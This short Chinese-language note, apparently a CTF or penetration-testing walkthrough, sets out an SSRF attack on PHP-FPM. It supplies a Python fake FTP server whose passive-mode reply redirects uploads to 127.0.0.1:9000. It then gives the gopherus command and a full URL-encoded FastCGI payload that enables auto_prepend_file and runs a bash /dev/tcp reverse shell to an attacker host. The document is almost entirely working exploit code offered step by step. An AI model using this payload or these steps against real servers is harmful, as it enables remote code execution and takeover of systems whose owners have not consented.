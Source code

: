 

**搭建恶意ftp服务器**

```python
import socket
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.bind(('0.0.0.0',123)) #端口可改
s.listen(1)
conn, addr = s.accept()
conn.send(b'220 welcome\n')
#Service ready for new user.
#Client send anonymous username
#USER anonymous
conn.send(b'331 Please specify the password.\n')
#User name okay, need password.
#Client send anonymous password.
#PASS anonymous
conn.send(b'230 Login successful.\n')
#User logged in, proceed. Logged out if appropriate.
#TYPE I
conn.send(b'200 Switching to Binary mode.\n')
#Size /
conn.send(b'550 Could not get the file size.\n')
#EPSV (1)
conn.send(b'150 ok\n')
#PASV
conn.send(b'227 Entering Extended Passive Mode (127,0,0,1,0,9000)\n') #STOR / (2)
conn.send(b'150 Permission denied.\n')
#QUIT
conn.send(b'221 Goodbye.\n')
conn.close()
```

然后通过`Nxshell`在服务器上启动`python3 ftp.py`

(切记需要先cd到当前目录)



**利用gopherus生成发向FPM的数据包**

```
python gopherus.py --exploit fastcgi
/var/www/html/index.php
bash -c "bash -i >& /dev/tcp/ip/39543 0>&1"
```

只要 _ 后面的内容

```
%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%06%06%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%03CONTENT_LENGTH108%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%18SCRIPT_FILENAME%20/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%00l%04%00%3C%3Fphp%20system%28%27%20bash%20-c%20%22bash%20-i%20%3E%26%20/dev/tcp/ip/10000%200%3E%261%22%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```
